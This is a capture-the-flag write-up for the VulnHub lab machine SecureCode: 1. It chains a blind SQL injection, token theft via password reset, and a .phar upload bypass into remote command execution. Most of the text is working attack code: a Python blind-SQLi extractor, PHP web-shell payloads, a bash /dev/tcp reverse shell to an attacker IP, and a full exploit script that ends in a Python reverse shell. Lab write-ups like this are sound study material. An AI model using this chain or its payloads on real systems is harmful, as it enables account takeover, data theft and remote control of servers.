








# SecureCode1

| Name | SecureCode: 1 |
| --- | --- |
| Date release | 23 Feb 2021 |
| Author | sud0root |
| Link | https://www.vulnhub.com/series/securecode,445/ |

## Goals

1. Bypass Authentication → flag1
2. Obtain Remote Command Execution → flag2
3. Write your PoC code that chains the exploitation of the discovered vulnerabilities

## Machine Info
Machine IP: 192.168.26.129  
Source Code: http://192.168.26.129/source_code.zip

## Analyzing the PHP code

After a long time reading the source code and playing with the web application to understand its logic I finally found something interesting, an SQL injection point.

Vulnerable PHP file (*viewItem.php*):



The vulnerability is at line 18:

- It is part of a GET request: `http://192.168.26.129/item/viewItem.php?id={PAYLOAD}`
- The `id` parameter does not have single/double quotes around it which makes it easier for injection.

# Extract data from the database via bruteforce

Since we have access to the source code and we know the database and tables names, we can skip the discovery of this part and go straight to data extraction via SQL injection.

File `db.sql` of the source code provided:



We can start by sending a SQL query to return all entries in the `user` table that has `id_level=1`, admin privileges, and check if the first letter of the entry start with “a”. We also add the `limit 1` to make sure it will return only one entry, in case there are more then one users with `id_level=1`.

```sql
select (substring(username,1,1)) from user where id_level=1 limit 1 = 'a'
```

However, the single and double quotes are being filtered by  `mysqli_query()` function:

```php
$data = mysqli_query($conn, "SELECT * FROM item WHERE id = $id");
```

One workaround is using the ascii table. So instead of comparing it to the letter “a” we will compare it to “97” and wrap the SQL query into ascii function.

The final query to check if the admin level username starts with letter “a” would look like this:

```sql
select (select ascii(substring(username,1,1)) from user where id_level=1 limit 1) = 97
```

The GET request look like this:

```php
GET /item/viewItem.php?id=5 OR (select (select ascii(substring(username,1,1)) from user where id_level=1 limit 1) = 97)

# URL ENCODED (via Burp = CTRL+U)
GET /item/viewItem.php?id=5+OR+(select+(select+ascii(substring(username,1,1))+from+user+where+id_level%3d1+limit+1)+%3d+97)
```

Response: HTTP/1.1 404 Not Found.

This actually means that the comparison is correct, otherwise we would be redirected to the login page based on the `viewItem.php` code here:



- Line 22 code logic: If a query to an existing id returns true, send a 404 response.

From that we can confirm that the comparison is correct or not based on the response code.

## Automate the blind SQL bruteforce

Lets automate this process with a Python script.

```python
import requests
import sys

def sqli(ip, inj_str):
    for j in range (32, 126): # Ascii table numbers
        proxies = {'http':'http://127.0.0.1:8080'}
        target = "http://%s/item/viewItem.php?id=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        r = requests.get(target, proxies=proxies)
        r2 = str(r.status_code)

        if "404" in r2:
            return j

    return None

def inject(inj, ip):
    extracted = ""
    for i in range (1,50):
        injection_string = "5 OR (select (select ascii(substring(%s,%d,1)) from user where id_level=1 limit 1) = [CHAR])" % (inj, i)
        retrieved_value = sqli(ip, injection_string)
        if retrieved_value:
            extracted += chr(retrieved_value)
            extracted_char = chr(retrieved_value)
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
            print("\n[!] Done")
            break
    return extracted

def main():
    if len(sys.argv) != 2:
        print("[-] Need IP")
        sys.exit(-1)

    ip = sys.argv[1]
    print("[+] Getting username")
    query = "username"
    username = inject(query, ip)
    
    print("[+] Getting password")
    query = "password"
    password = inject(query, ip)

    print("[+] Creds are %s and %s" % (username, password))

if __name__ == "__main__":
    main()
```

Running this script we get the following:

```python
[+] Getting username
admin
[!] Done
[+] Getting password
unaccessable_until_you_change_me
[!] Done
[+] Creds are admin and unaccessable_until_you_change_me
```

The password give us a hint that we need to reset it before move on.

## Forget Password Token

Sometimes when we send a “Forgot my password” request, the web application will create a token and store in the database. Since now we can dump the database via SQL Injection we can retrieve the token generated.

Analyzing the code below, we note that when we reset the password, it will generate a token of length 15. Also note that the function `send_email()` is leaking the link we need to access to reset the password when we have the token.



Basically what we need to do is:

1. Reset the password for `admin`
2. Adjust our script to dump the token generated for `admin`
3. Visit `http://192.168.26.129/login/doResetPassword.php?token={TOKEN}`

To dump the Token we just need to modify the `main()` of our script as below:

```python
def main():
    if len(sys.argv) != 2:
        print("[-] Need IP")
        sys.exit(-1)

    ip = sys.argv[1]
    print("[+] Getting username")
    query = "username"
    username = inject(query, ip)
    
    print("[+] Getting password")
    query = "password"
    password = inject(query, ip)

    print("[+] Getting token")
    query = "token"
    token = inject(query, ip)

    print("[!] Creds are %s and %s" % (username, password))
    print("[!] Token for %s is = %s" % (username, token))
```

Running the script we get the following response:

```python
kali@kali:~/oswe/securecode1$ python blindsql.py 192.168.26.129 
[+] Getting username
admin
[!] Done
[+] Getting password
unaccessable_until_you_change_me
[!] Done
[+] Getting token
xxtax6edS5U3hch
[!] Done
[!] Creds are admin and unaccessable_until_you_change_me
[!] Token for admin is = xxtax6edS5U3hch
```

Visit “http://192.168.26.129/login/doResetPassword.php?token=xxtax6edS5U3hch” to reset the admin password!

## Logged as Admin

We have access to admin account. Poking around we see that we can create new items and upload files that are used as the item image.

### Add new item OR Update item?

Looking at the code `newItem.php` we notice the following logic to upload a file:

1. If the file is not in `blacklisted_exts` and is in `mimes` it will be uploaded.



However, looking at `updateItem.php` code, we noticed that there is no mime type whitelist, only extensions blacklist! Much easier to bypass and upload a malicious file!



Another thing to note is that there is no blacklist for the extension `phar`. 

Phar files can execute PHP code. We could upload the following `shell.phar` file:

```php
<?php system($_REQUEST["cmd"]); ?>
```

Or could even be more direct to a reverse shell:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.139.132/4444 0>&1'"); ?>
```

### Chaining all together in a Python script

In order to create a script to chain all these vulnerabilities and return a shell we will need to manage a login session so we can use the authenticated cookies to perform other tasks. The final script is as follow:

```python
from __future__ import division
import sys
import requests
from bs4 import BeautifulSoup

# Input parameter
if(len(sys.argv) < 4) :
    print("[+] Usage: python3 <Target_URL> user_admin <Your_IP>")
    print("[+] Example: python3 %s http://192.168.150.134 admin 127.0.0.1" % sys.argv[0])
    exit()

target = sys.argv[1]
userName = sys.argv[2]
reverseIp = sys.argv[3]
session = requests.Session()

header = {"Content-Type": "application/x-www-form-urlencoded"}
# Reset user password
def resetPassword():
    print("[+] Reseting the password for " + userName)
    data = {"username" : userName}

    resetUrl = target + "/login/resetPassword.php"
    resetPasswordStatus = session.post(resetUrl, data = data, headers = header, allow_redirects=True)

    resetSoup = BeautifulSoup(resetPasswordStatus.text, features = "html.parser")
    if (resetSoup.find("strong").string != "Success!"):
        print("[+] Reset password failed! Does username exist?")
        exit()
    
    token = getToken()

    resetUrl = target + "/login/doResetPassword.php"
    session.get(resetUrl + "?token=" + token)
    data = {"token" : token, "password" : "caueob"}
    
    resetUrl = target + "/login/doChangePassword.php"
    resetPassRes = session.post(resetUrl, data = data, headers = header)
    resetPassSoup = BeautifulSoup(resetPassRes.text, features = "html.parser")
    if(resetPassSoup.find("strong").string != "Success!"):
        print("[+] Reset password failed!")
        exit()
    else:
        print("[+] Password changed! Login with admin:caueob")

# Get resetPassword Token with SQL injection

def getToken():
    print("\n[+] Dumping the reset token...")
    token = ""
    for i in range (1,50):
        injection_string = "5 OR (select (select ascii(substring(token,%d,1)) from user where id_level=1 limit 1) = [CHAR])" % (i)
        retrieved_value = sqli(target, injection_string)
        if retrieved_value:
            token += chr(retrieved_value)
            extracted_char = chr(retrieved_value)
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
            print("\n[!] Done\n")
            break
    print("[+] Reset password token is: " + token)
    return token

def sqli(ip, inj_str):
    for j in range (32, 126): # Ascii table numbers
        target = "%s/item/viewItem.php?id=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        #proxies = {'http':'http://127.0.0.1:8080'}
        #r = requests.get(target, proxies=proxies)
        r = requests.get(target)
        r2 = str(r.status_code)

        if "404" in r2:
            return j
    return None

def login():
    loginUrl = target + "/login/checkLogin.php"
    data = {"username":"admin", "password":"caueob"}
    loginRes = session.post(loginUrl, data = data, headers = header)
    loginSoup = BeautifulSoup(loginRes.text, features = "html.parser")
    if(loginSoup.find("strong").text != "Success!"):
        print("[+] login failed")
        exit()
    else:
        print("[+] Login success! Uploading RCE file...")

def uploadfile():
    fileName = "shell.phar"
    fileContent = "<?php system($_GET['cmd']);?>"
    uploadUrl = target + "/item/updateItem.php"
    f = open(fileName, "w") 
    f.write(fileContent)
    f.close()

    files = {'image': (fileName, open(fileName, "rb"), 'image/jpeg')}
    data = {'id':2, 'id_user':1, 'name':"ALFA WIFI Adapter", "description":"alfa wifi adapter", "price":12}
    
    session.post(uploadUrl, data=data, files = files)

def getShell():
    shellUrl = target + "/item/image/shell.phar?cmd="
    reverseShellPayload = "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\""+ reverseIp  +"\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
    shellUrl += reverseShellPayload
    shellRes = session.get(shellUrl)
    print("[+] Check your listening terminal!")

def main():
    resetPassword()
    login()
    uploadfile()
    getShell()
    
main()
```

## Recap of the vuln chain

1. Reset the `admin` password
2. Extract the reset password token via SQL injection in `viewItem.php?id`
3. Use the token to set a new password and login to the admin portal via `/login/doResetPassword.php` , `/login/doChangePassword.php` and `/login/checkLogin.php`
4. Upload a malicious `.phar` file updating an existing item via `/item/updateItem.php`
5. Get a reverse shell via file uploaded at `/item/image/shell.phar?cmd=`

All we need to do now is start a netcat listener on port 4444 and execute the script.



